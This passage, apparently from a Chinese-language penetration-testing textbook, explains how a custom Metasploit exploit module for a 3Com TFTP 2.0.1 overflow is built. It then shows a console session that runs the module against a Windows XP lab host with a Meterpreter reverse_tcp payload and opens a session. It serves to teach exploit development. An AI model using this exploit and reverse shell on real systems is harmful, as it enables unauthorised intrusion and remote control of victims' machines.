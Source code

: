 与 Python 利用示例一样，我们首先告诉 TFTP 服务器将数据写入文件 ❶。然后，我们使用 `rand_text_english` 函数创建一个随机的七字符文件名 ❷。这种方法比我们在 Python 利用示例中使用静态字母更为优越，因为任何可预测的内容都可以用来为杀毒程序、入侵防御系统等编写签名。接下来，我们按照 TFTP 数据包规范，使用一个空字节来结束文件名 ❸，然后附加上用户选择的有效载荷 ❹ 和返回地址 ❺。最后按照 TFTP 规范 ❻ 用一个空字节结束数据包。（在使用 `end` 结束利用函数后，不要忘记在 ❼ 处关闭模块。）

我们现在已经为 3Com TFTP 2.0.1 长传输模式漏洞编写了一个利用模块。将文件保存在 */root/.msf4/modules/exploits/windows/tftp/myexploit.rb*，然后运行 Msftidy 工具对模块进行格式验证，确保其符合 Metasploit 模块的格式规范。在提交模块到 Metasploit 仓库之前，按照 Msftidy 提出的建议进行任何格式更改。

```
root@kali:~# **cd /usr/share/metasploit-framework/tools/**
root@kali:/usr/share/metasploit-framework/tools# **./msftidy.rb /root/.msf4/modules/exploits/windows/tftp/myexploit.rb**
```

### 注意

Metasploit 会不时修改其所需的语法，因此如果你打算提交一个模块到代码库，运行 `msfupdate` 获取最新版本的 Msftidy。在这种情况下，我们不需要担心这个问题，运行 `msfupdate` 可能会导致书中的其他练习出现问题，因此目前我不建议运行它。

重启 Msfconsole 以加载最新的模块，包括任何位于 *.msf4/modules* 目录中的模块。如果你犯了任何语法错误，Metasploit 会显示无法加载的模块的详细信息。

现在使用你的新利用模块来攻击 Windows XP 目标。如示例 19-12 所示，Metasploit 可以将多个有效载荷装入 473 个字符内，包括 Meterpreter ❶。

示例 19-12. 使用你的模块

```
msf > **use windows/tftp/myexploit**
msf  exploit(myexploit) > **show options**
Module options (exploit/windows/tftp/myexploit):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  69               yes       The target port

Exploit target:

   Id  Name
   --  ----
   0   Windows XP Pro SP3 English

msf  exploit(myexploit) > **set RHOST 192.168.20.10**
RHOST => 192.168.20.10
msf  exploit(myexploit) > **show payloads**
--*snip*--
msf  exploit(myexploit) > **set payload windows/meterpreter/reverse_tcp**❶
payload => windows/meterpreter/reverse_tcp
msf  exploit(myexploit) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(myexploit) > **exploit**
[*] Started reverse handler on 192.168.20.9:4444
[*] Trying target Windows XP Pro SP3 English...
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:4662) at 2015-02-09 09:28:35 -0500
meterpreter >
```
